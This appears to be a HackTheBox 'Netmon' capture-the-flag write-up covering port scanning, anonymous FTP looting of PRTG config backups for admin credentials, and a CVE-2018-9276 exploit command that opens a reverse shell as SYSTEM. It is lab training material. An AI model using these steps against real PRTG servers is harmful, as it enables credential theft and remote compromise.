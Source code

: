 ```yaml
---
title: HTB | Netmon
author: Zeropio
date: 2022-12-24
categories: [Pentesting, HackTheBox]
tags: [htb, windows, easy, machines]
permalink: /pentesting/htb/machines/netmon
---
```


![HTB Img](/assets/img/hackthebox/card/Netmon.png)

# Fingerprint

## Scan

The scan show us:

```
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### FTP

The ******************anonymous****************** user is enable, with this command all the ftp can be downloaded:

```bash
wget -m --no-passive ftp://anonymous@10.10.10.152
```

But the `C:\Users\Administrator`{: .filepath} folder is not accesible. Accesing the `config`{: .filepath} folder is also blocked:

```console
ftp> cd Windows
250 CWD command successful.
ftp> cd config
550 The system cannot find the file specified.
```

But we have access to the `C:\Users\Public`{: .filepath} or the `C:\inetpub`{: .filepath}. In the logs there is a reference to a ************************************WebManagementShell************************************:

```
2019-02-26 02:18:24 10.10.10.152 POST /Service.axd Module=WebObjects&Method=GetSite 8172 netmon\administrator 10.10.14.2 WebManagementShell|7.0.0.0|4.0.30319.42000|System.Windows.Forms.Control - 200 0 0 276
```

All available users in the system can be seen:

```console
ftp> ls -a
229 Entering Extended Passive Mode (|||50599|)
150 Opening ASCII mode data connection.
02-25-19  10:44PM       <DIR>          Administrator
07-16-16  08:28AM       <DIR>          All Users
02-03-19  07:05AM       <DIR>          Default
07-16-16  08:28AM       <DIR>          Default User
07-16-16  08:16AM                  174 desktop.ini
02-02-19  11:35PM       <DIR>          Public
```

Inside `All Users`{: .filepath} there is a bunch of them, but one has a different name, **Paessler**. There we have the folder `PRTG Network Monitor`{: .filepath}.

```console
ftp> ls
229 Entering Extended Passive Mode (|||50695|)
125 Data connection already open; Transfer starting.
12-24-22  07:28AM       <DIR>          Configuration Auto-Backups
12-24-22  06:47AM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
12-24-22  06:47AM       <DIR>          Logs (Web Server)
12-24-22  06:52AM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
12-24-22  07:28AM              1680579 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
```

Download the config file:

```console
ftp> get "PRTG Configuration.dat"
```

There we can find the following:

```xml
								<login>
                  prtgadmin
                </login>
                <name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
                  </cell>
                  <cell col="1" crypt="PRTG">
                    OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
                  </cell>
                </password>

```

We search for this user in the three config files we have in the FTP:

```console
$ grep -C 10 prtgadmin 'PRTG Configuration.dat'
$ grep -C 10 prtgadmin 'PRTG Configuration.old'
$ grep -C 10 prtgadmin 'PRTG Configuration.old.bak'
```

Finally, we found cleartext credentials:

```xml
<dbpassword>
	<!-- User: prtgadmin -->
	PrTg@dmin2018
</dbpassword>
```

### HTTP

There is a page with a login prompt for access **PRTG Network Monitor**. The previous credentials will not work at first, but after changing the year to ********2019******** it will work. The finals credentials are `prtgadmin:PrTg@dmin2019`.

If we look into the source code we can get the version inside a script:

```jsx
(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
})(window,document,'script','//www.google-analytics.com/analytics.js','__ga');
__ga('create', 'UA-154425-18', {
'appId':'-10',
'appName':'PRTG Network Monitor (NETMON)',
'appVersion':'18.1.37.13946'
});
```

But once logged in, we can get the exact version: `18.1.37.13946`. Searching for exploits in this version:

```console
$ searchsploit PRTG
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution                                                       | windows/webapps/46527.sh
```

The webpage on the port 47001 and 5985 show a error 404. Fuzzing will not show any other page.

---

# Footprint

## Privilege Escalation

We will use this [exploit](https://github.com/wildkindcc/CVE-2018-9276/pull/1/commits/9653c261aeb5a263cb79a2b805217516bef9baf0), from a commit in the same exploit in [Python2](https://github.com/wildkindcc/CVE-2018-9276):

```console
$ python3 CVE-2018-9276-py3.py -i 10.10.10.152 -p 80 --lhost 10.10.14.3 --lport 80 --password 'PrTg@dmin2019'

C:\Windows\system32>whoami
nt authority\system
```
